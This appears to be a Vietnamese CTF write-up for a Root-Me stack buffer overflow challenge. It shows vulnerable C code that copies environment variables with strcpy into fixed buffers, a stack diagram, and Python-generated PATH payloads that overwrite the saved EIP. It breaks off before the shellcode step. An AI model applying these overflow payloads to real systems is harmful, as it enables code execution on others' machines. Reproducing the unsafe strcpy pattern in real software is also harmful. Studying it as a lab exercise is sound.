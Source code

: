 
# Co-che-hoat-dong-cua-ma-doc - challenge 5 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 4: ssh -p 2222 app-systeme-ch8@challenge02.root-me.org 
```

![image](https://user-images.githubusercontent.com/64201705/120130184-bac8d300-c1ef-11eb-9a06-2c075e009029.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
app-systeme-ch8@challenge02:~$ cat ch8.c
```
Ta sẽ được như này:
```C
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string.h>

struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];
  char path[128];
};


struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;

  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}

int main(void)
{
  struct EnvInfo env;

  printf("[+] Getting env...\n");
  env = GetEnv();

  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);

  return 0;
}
```
Đối với challenge này, ta thấy chương trình sẽ load biến môi trường lên và sử dụng hàm `strcpy` để thực hiện copy env đó qua con trỏ ptr. Vì thế, ta sẽ nghĩ tới việc chương trình sẽ load đoạn shell code do ta chuẩn bị nằm trong biến môi trường và copy qua con trỏ. Sau đó sẽ ghi đè câu lệnh return 0 để gọi tới hàm có địa chỉ nằm trong shell code.
Đầu tiên ta thấy chương trình cần biến môi trường `USERNAME` cho nên ta sẽ export biến này trước: `export USERNAME=AAAA`
Sau khi gọi hàm Getenv() và gần tới câu lệnh return, stack sẽ có dạng:
540 - 128 = 412, 412 - 128 = 284 và 284 - 128 = 156
```
            +----------------------------+
            |      HOME env variable     |     %ebp - 540
            +----------------------------+
            |    USERNAME env variable   |     %ebp - 412
            +----------------------------+
            |      SHELL env variable    |     %ebp - 284
            +----------------------------+
            |      PATH env variable     |     %ebp - 156
            +----------------------------+
            |           saved ebp        |
            +----------------------------+
            |        return address      |     %ebp + 4
            +----------------------------+
            |   rep movsl dest. address  |     %ebp + 8
            +----------------------------+  
```
Ta sẽ set biến môi trường USERNAME bằng một đoạn văn bản nào đó:

![image](https://user-images.githubusercontent.com/64201705/120205711-79b6da00-c254-11eb-9af5-346156c0dabb.png)

Ta sẽ thử ghi đè EIP để xem có chuyển hướng chương trình được không, ở đây offset của EIP sẽ là 164 - 16 

```bash
PATH=$(/usr/bin/python -c 'print "/usr/local/bin:" + "A" * (164-16)') peda -ex "run" ./ch8

```
![image](https://user-images.githubusercontent.com/64201705/120206275-327d1900-c255-11eb-8600-7ae63b32b00d.png)

Ta thấy EIP bị ghi đè bởi kí tự "AAA"
Tiếp theo ta sẽ thử ghi đè lên %ebp + 8 | rep movsl destination address để gọi shellcode của ta được lưu trong biến môi trường SHELLCODE sẽ tạo sau này:
- Trước hết, ta xem địa chỉ dòng lệnh ret nằm ở vị trí nào, ta sẽ đặt breakpoint ngay trước lệnh ret:

![image](https://user-images.githubusercontent.com/64201705/120206972-0746f980-c256-11eb-8790-e8dba35e7bfa.png)

- Bây giờ ta sẽ tiến hành ghi đè nó bằng payload:
`PATH=$(/usr/bin/python -c 'print "/usr/local/bin:" + "A" * (161-16) + "AAAA"') peda -ex "b*0x08048672" -ex "run" -ex "i f" -ex "x/3wx \$ebp" ./ch8`
